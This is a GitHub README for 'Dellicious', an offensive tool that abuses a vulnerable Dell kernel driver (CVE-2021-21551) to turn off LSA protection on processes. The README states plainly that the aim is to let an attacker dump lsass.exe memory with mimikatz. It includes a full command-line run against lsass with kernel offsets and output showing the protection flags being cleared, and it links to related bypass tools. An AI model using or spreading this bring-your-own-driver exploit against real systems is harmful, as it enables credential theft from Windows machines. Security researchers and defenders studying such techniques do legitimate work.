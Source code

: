 # Dellicious

Dellicious is a tool for enabling/disabling LSA protection on arbitrary processes via a vulnerability in Dell's DBUtilDrv2.sys driver (version 2.5 or 2.7). Dellicious drops the vulnerable driver to disk, installs it, exploits it, and then removes it. That obviously requires administrator access, but that's fairly normal for LSA Protect bypass techniques. See:

* [PPLKiller](https://github.com/RedCursorSecurityConsulting/PPLKiller) - LSA protect bypass using `rtcore.sys`
* [PPLDump](https://github.com/itm4n/PPLdump) - LSA protect bypass using `DefineDosDevice` and known dlls
* [mimidrv](https://posts.specterops.io/mimidrv-in-depth-4d273d19e148) - Mimikatz kernel driver. LSA protect bypass by being a signed kernel driver :-D

LSA protection blocks memory access from other processes. When LSA protection is enabled lsass.exe can't have it's memory dumped by tools like mimikatz. Obviously, running mimikatz is extremely desirable for an attacker. Using this tool the attacker is able to disable the protection and dump/access memory.

## Example GIF

Oh no. It's too big to host on github :(

## Example CLI Usage

In the following, lsass.exe is pid 740. I've instructed Dellicious to disable protection using DBUtilDrv2.sys version 2.7.

```
C:\Users\albinolobster\Desktop>.\dellicious.exe -p 740 -e 0 -d 1
[+] User provided pid: 740
[+] Windows version found: 2009
[+] Using offsets:
        UniqueProcessIdOffset = 0x440
        ActiveProcessLinkOffset = 0x448
        SignatureLevelOffset = 0x878
[+] Dropping version 2.7 to disk
[+] Attempting driver install...
[+] Driver installed!
[+] Device handle has been obtained @ \\.\DBUtil_2_5
[+] Ntoskrnl base address: fffff80615c00000
[+] PsInitialSystemProcess address: ffffa20e29860180
[+] Target process address: ffffa20e2b3e10c0
[+] Current SignatureLevel, SectionSignatureLevel, Type, Audit, and Signer bits (plus 5 bytes): 40c0000041083c
[+] Writing flags back as: 40c00000000000
[+] Done!
[+] Removing device
[!] Clean exit! o7
```

## Credit

This codebase is heavily influenced by PPLKiller (mentioned above). It also was influenced by the dbutil_2_3.sys metasploit module as well as [Mitch Zakocs'](https://www.mitchellzakocs.com/blog/dbutil) write up on CVE-2021-21551.
